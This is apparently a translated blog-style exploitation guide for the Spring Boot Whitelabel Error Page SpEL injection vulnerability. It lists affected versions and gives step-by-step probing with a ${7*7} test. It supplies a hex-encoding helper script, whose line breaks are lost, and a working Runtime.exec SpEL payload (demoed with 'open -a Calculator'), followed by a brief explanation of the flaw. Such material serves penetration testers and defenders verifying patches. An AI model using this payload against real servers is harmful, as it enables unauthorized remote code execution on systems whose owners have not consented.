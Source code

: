 ## Remote Code Execution


Since spring boot related vulnerabilities may be caused by the combination of multiple component vulnerabilities, some vulnerabilities are not named properly, whichever can be distinguished

### White Label Error Page SpEL RCE

**[](https://www.blogger.com/#)Conditions of use:**\
spring-boot 1.1.0-1.1.12, 1.2.0-1.2.7, 1.3.0 are Know at least one interface and parameter name that triggers the default error page of spring-boot\
[](https://www.blogger.com/#)

**How to use:**\
[](https://www.blogger.com/#)**Step 1:** Find a normal transmission location

- For example, if a visit is found /article?id=xxx, the page will report an error with a status code of 500: Whitelabel Error Page and subsequent payloads will be tried at the parameter id.

[](https://www.blogger.com/#)**Step 2:** Execute the SpEL expression

- Enter /article?id=${7*7}, if it is found that the error page calculates the value 49 of 7*7 and displays it on the error page, then it can be basically determined that the target has a SpEL expression injection vulnerability.

Convert from string format to 0x**java byte format for easy execution of arbitrary code:

```
# coding: utf-8result = ""target = 'open -a Calculator'for x in target:result += hex(ord(x)) + ","print(result.rstrip( ',' ))
```



execute `open -a Calculator` command


```
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```


#### Vulnerability Principle:

- spring-boot processing parameter value error, the process enters the org.springframework.util.PropertyPlaceholderHelperclass

- At this point, the parameter value in the URL will be recursively parsed with the parseStringValuemethod

- ${} The content enclosed in it will be parsed and executed by org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfigurationthe resolvePlaceholdermethod as a SpEL expression, resulting in an RCE vulnerability

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [SpringBoot SpEL Expression Injection Vulnerability - Analysis and Reproduction](<https://cdmana.com/2021/06/20210611111018700V.html>)
